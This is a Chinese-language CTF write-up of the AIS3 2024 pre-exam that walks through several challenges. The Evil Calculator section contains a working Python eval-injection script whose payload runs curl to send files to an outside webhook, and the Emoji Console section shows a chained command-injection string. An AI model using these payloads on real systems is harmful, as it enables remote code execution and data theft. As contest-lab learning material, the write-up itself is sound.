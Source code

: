 ```yaml
---
lang: zh-TW
title: "AIS3 2024 Pre-Exam Writeup"
tags: [ "Cyber Security", "Competition", "CTF Writeup" ]
authors: [ "XinShou" ]
type: post
showTableOfContents: true
date: 2024-05-29
---
```


## Evil Calculator

這題會先移除掉空格與底線，目標是製作一個不包含那兩個符號的Payload，將資料發送到自己的webhook。

我將空格改成 chr(32)，底線在Payload中沒有使用到

```py {linenos=inline}
# exec("import os; os.system(\'cat flag.txt\')")
#
# $(curl -XPOST https://webhook.site/b73912c2-79c8-4062-8d33-acf91d9d27cf -d "$(ls)") #


import requests

txt = r'exec("import"+chr(32)+"os;"+chr(32)+"os.system(\'curl"+chr(32)+"-XPOST"+chr(32)+"https://webhook.site/da2c3866-c9fe-453c-b079-a7146b7b6347"+chr(32)+"-d"+chr(32)+"\"$(cat"+chr(32)+"../*)\"\')")'
# eval(txt)  # 測試結果是否成功
print(' ' in txt)
print(requests.post(r'http://chals1.ais3.org:5001/calculate', json={'expression': txt}).json())
```

比賽截圖
![image](https://hackmd.io/_uploads/r11J_RRXC.png)

writeup截圖
![image](https://hackmd.io/_uploads/Sk4P0LD4C.png)

Flag: `AIS3{7RiANG13_5NAK3_I5_50_3Vi1}`

<br/><br/><br/><br/><br/>

## The Long Print

Ida 修改流程即可拿到Flag。我將每次傳入sleep的arg (`rdi`)都更改為0，這樣就可以規避掉sleep函數的長等待。這雖然不是最好的解法，但當下只有想到這樣。

writeup截圖
![image](https://hackmd.io/_uploads/ryvJ1Dv4A.png)
![image](https://hackmd.io/_uploads/S1Fl1PP40.png)
![image](https://hackmd.io/_uploads/rkqzkvvEA.png)

Flag: `AIS3{You_are_the_master_of_time_management!!!!?}`

<br/><br/><br/><br/><br/>

## Quantum Nim Heist

亂亂按就發現大問題了，Enter, Enter, get flag

比賽截圖
![image](https://hackmd.io/_uploads/HkEjm1J4C.png)

writeup截圖
![image](https://hackmd.io/_uploads/H1uUyDDEC.png)
![image](https://hackmd.io/_uploads/H13PyvP40.png)
![image](https://hackmd.io/_uploads/SyzOJDPVC.png)

Flag: `AIS3{Ar3_y0u_a_N1m_ma57er_0r_a_Crypt0_ma57er?}`

<br/><br/><br/><br/><br/>

## Emoji Console

原本只想透過 `;` 與 `$()` 試著湊出來，但一直沒有成功。到最最最後才亂撞出 `;` 搭配 `|` 可以湊出多指令執行

最後使用的語法 `cd flag;p:|python flag-print*)`

![image](https://hackmd.io/_uploads/SkatC9eVC.png)
![image](https://hackmd.io/_uploads/SJLsC9gNA.png)

<br/><br/><br/><br/><br/>

## Three Dimensional Secret

打開pcapng後，follow其中可疑的TCP，發現到以下內容。截取片段讓GPT分析，並得知為G-Code語法，丟到線上網站便可得到Flag

![image](https://hackmd.io/_uploads/HJGMbDPE0.png)
![image](https://hackmd.io/_uploads/ryK9bwv4R.png)
![image](https://hackmd.io/_uploads/BJlRWvPNR.png)

<br/><br/><br/><br/><br/>

## Welcome

這題看起來挺難的，一開時沒注意到落後了一大截ＱＱ

![image](https://hackmd.io/_uploads/SyLeMwDVR.png)